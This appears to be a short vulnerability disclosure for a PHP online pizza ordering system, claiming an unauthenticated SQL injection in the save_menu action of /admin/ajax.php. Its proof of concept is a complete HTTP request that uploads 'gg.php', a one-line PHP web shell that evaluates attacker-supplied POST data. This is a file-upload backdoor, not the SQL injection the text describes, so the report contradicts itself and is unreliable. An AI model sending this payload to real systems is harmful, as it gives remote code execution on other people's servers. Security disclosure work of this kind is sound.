


The Online Pizza Ordering System has an SQL injection vulnerability, which can be exploited by an attacker to steal information or corrupt a database without authentication.


Source code address：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html


The vulnerability is located in save_menu in the /admin/ajax.php file, and you can see in the code snippet that the parameters passed in are concatenated directly with the SQL statement.




Vulnerability verification：

```
POST /php-opos/admin/ajax.php?action=save_menu HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------912513259994
Content-Length: 799

-----------------------------912513259994
Content-Disposition: form-data; name="id"


-----------------------------912513259994
Content-Disposition: form-data; name="category_id"

4
-----------------------------912513259994
Content-Disposition: form-data; name="name"

1
-----------------------------912513259994
Content-Disposition: form-data; name="description"

1
-----------------------------912513259994
Content-Disposition: form-data; name="price"

1
-----------------------------912513259994
Content-Disposition: form-data; name="status"

on
-----------------------------912513259994
Content-Disposition: form-data; name="img"; filename="gg.php"
Content-Type: application/octet-stream

<?php
eval($_POST["pass1"]);

-----------------------------912513259994--

```

 


